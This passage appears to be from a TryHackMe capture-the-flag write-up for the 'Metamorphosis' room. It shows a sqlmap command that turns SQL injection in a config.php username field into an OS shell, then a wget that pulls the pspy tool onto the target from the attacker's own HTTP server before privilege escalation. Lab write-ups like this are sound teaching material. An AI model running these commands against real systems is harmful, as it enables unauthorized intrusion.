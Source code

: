 ![[Metamorphosis/assets/Untitled 11.png|Untitled 11.png]]

  

While intercepting the traffic with burpsuite, If we try some random username on the Username field we can see that the request is send to a `/config.php` path and the name that we typed in the username field is set to a `username` variable.

![[Metamorphosis/assets/Untitled 12.png|Untitled 12.png]]

From the stuff we got we can try try to obtain a shell using `sqlmap.`

**Command :** `sqlmap -u http://<IP-ADDR>/admin/config.php --batch --data=username=hi --level=5 --risk=3 --os-shell`

![[Metamorphosis/assets/Untitled 13.png|Untitled 13.png]]

![[Metamorphosis/assets/Untitled 14.png|Untitled 14.png]]

We can see that we have obtained a `os-shell`.

Now we can check the user directory. When I tried to change the directory it wasn’t possible. So I tried listing the directories and found the `user.txt` file.

  

![[Metamorphosis/assets/Untitled 15.png|Untitled 15.png]]

  

And viola, we have obtained the user flag.. Now we have to obtain the root flag

Now, we have to escalate our privileges to obtain the root flag. First, we will find all the running processes that are running on our target machine. For that, we are going to use a tool called [pspy](https://github.com/DominicBreuker/pspy). You can also use other tools such as [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) for this purpose. In this challenge, I am going to use the pspy tool.

Download the tool to your local machine. We have to transfer this file from our local machine to the target machine because tryhackme rooms don’t have an internet connection. So, we will first download the pspy tool to our local machine. After downloading, create a Python simple HTTP server in the same directory where you downloaded the pspy tool. The command for creating a Python simple HTTP server is: `python -m http.server`. This command will host a simple web server with your current working directory as the root of the web server, which is accessed by your machine's IP address on port `8000`.

  

![[Metamorphosis/assets/Untitled 16.png|Untitled 16.png]]

Now you can use the `wget` command to download the pspy tool to the target machine. Since, you are connected to tryhackme via the openvpn, which implies that your target machine can reach your local machine via the openvpn tunnel and vice versa. By this way we can download the pspy tool to the target machine from our local machine.

The command is : `wget http://<tun0-IPaddress>:8000/pspy32`

  
